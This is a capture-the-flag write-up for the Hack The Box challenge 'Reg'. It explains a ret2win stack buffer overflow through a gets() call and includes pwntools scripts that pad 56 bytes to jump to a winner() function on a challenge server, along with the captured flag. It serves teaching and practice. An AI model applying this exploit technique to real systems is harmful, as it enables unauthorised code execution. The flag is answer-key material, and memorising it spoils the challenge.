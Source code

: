 # Reg
> Write-up author: jon-brandy
## DESCRIPTION:
This is a basic buffer flow exploit. Try to get the flag.
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.
2. Next, check the file type we got.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469022-868db7be-e8d4-4678-a528-9f0bd0b2a919.png)


3. It's a 64 bit binary file, dynamically linked and **not stripped**. Since it's not stripped, hence it's easier for us debug or identify the function.
4. Now, check the binary's protection.

> RESULT 

```
No canary Found (means we can do bufferoverflow concept).
No PIE (means a binary and all of it's dependencies are loaded not in random locations within virtual memory each time the application executed).
Partial RELRO (some sections of the binary are read only, preventing them from being modified).
```

![image](https://user-images.githubusercontent.com/70703371/209469053-3655c77c-d080-476a-97e9-3b6bbe2ff4b4.png)


5. Now run the file in gdb.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469202-3e2f98a8-6865-4bcf-95b2-6b3bfc7e5907.png)


6. Let's enter 1024 cyclic pattern.

> RESULT - GOT SEGMENTATION FAULT

![image](https://user-images.githubusercontent.com/70703371/209469249-07d78d45-4722-47cf-a3bc-ba148c4871d3.png)


7. To find the correct bytes to overflow the buffer, copy all the RBP characters.

![image](https://user-images.githubusercontent.com/70703371/209469266-359f4ef1-28d3-46fb-87d8-20e696c0e3a3.png)


8. Then run this command -> `cyclic -l gaaaaaaa`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469282-1faa70d6-4614-499f-aa8f-b27c342306c7.png)


9. 48 Bytes.
10. Let's decompile the file with ghidra.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469351-4d3d9e29-06ec-4204-9fdd-75d9879d3b34.png)


11. Check the `run()` function.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469676-7f32d029-9e29-4992-8d04-595a7ccf0221.png)


12. Based from the decompiled binary we got, the vuln is at the `gets()` function.
13. Notice there's a function named `winner()`.

![image](https://user-images.githubusercontent.com/70703371/209469428-a99621bc-4522-4f3c-9b18-65a419ea11c4.png)


![image](https://user-images.githubusercontent.com/70703371/209469656-afe9be66-2a62-46f1-a886-c0ad14f48bf7.png)



14. The concept here is ret2win, we can control the return address to the `winner()` function by overflow the buffer.
15. Now get the `winner()` address.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469477-2d32a529-e4c5-4779-89d1-5c81ea270f00.png)


16. Convert that to decimal.
17. Here's our script so far.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')
context.log_level = 'debug'
sh = remote('206.189.28.76',30687)
p = b'A' * 48
winAddr = 4198918 #0x401206
p += p64(winAddr)
sh.sendlineafter(b': ', p)
sh.interactive()
```

18. When i ran the script, i didn't get the flag, i think the padding bytes is incorrect.
19. When i add another 4 bytes, it's still, but when i add more 4 bytes (total 8 bytes added).
20. I got the flag.

> THE CORRECT PADDING BYTES - 56

```py
from pwn import *
import os

os.system('clear')
context.log_level = 'debug'
sh = remote('206.189.28.76',30687)
p = b'A' * 56
winAddr = 4198918 #0x401206
p += p64(winAddr)
sh.sendlineafter(b': ', p)
sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/209469851-78320b70-54f0-4fe9-aedc-0ba8b378f3c5.png)


21. Got the flag!

## FLAG

```
HTB{N3W_70_pWn}
```
